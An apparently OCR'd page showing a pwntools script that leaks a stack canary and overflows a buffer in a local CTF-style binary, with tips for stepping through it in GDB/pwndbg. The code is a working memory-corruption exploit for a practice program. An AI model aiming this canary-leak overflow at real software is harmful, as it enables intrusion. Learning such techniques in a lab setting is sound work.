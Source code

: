 0xf61593ed0c38d300

UwUUwUAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA



# debugging with pwndbg with python script payload

To debug the exploit with pwndbg, you can modify the script to use GDB. Here's how:

```python
from pwn import * 

context.terminal = ['tmux', 'splitw', '-h']  # If you're using tmux
# context.terminal = ['gnome-terminal', '--'] # If you're using gnome-terminal

p = process("./program")
gdb.attach(p, '''
break main
continue
''')

# Rest of your exploit remains the same
p.recvuntil(b"UwU is in ")
uwu_addr = int(p.recvuntil(b"\n").strip(), 16)
print("[*] UwU address:", hex(uwu_addr))

rbp_addr = uwu_addr + 0x70
print("[*] RBP address:", hex(rbp_addr))

p.recvuntil(b"Please enter a choice (1:Yes, 2:Yes):")
p.sendline(b'1')

p.recvuntil(b"Please enter an address e.g. 0x7fffdeadbeef:")
canary_location = hex(rbp_addr - 8)
p.sendline(canary_location)
p.recvuntil(b"contains ")
leaked_canary = int(p.recvuntil(b"\n").strip(), 16)
print("[*] leaked canary:", hex(leaked_canary))
payload = b'UwUUwU' + b'A' * 82
payload += p64(leaked_canary)

p.sendline(payload)

p.interactive()
```

You can add more breakpoints or GDB commands in the `gdb.attach()` string. Here are some useful commands you might want to add:

```python
gdb.attach(p, '''
break main
break *vuln+99  # Break before the canary check
break *vuln+168 # Break at the win function call
continue

# Some useful commands to add:
# display/10gx $rsp  # Display 10 quad-words from stack
# x/gx $rbp-0x8     # Examine canary location
# vmmap             # Show memory mappings
''')
```
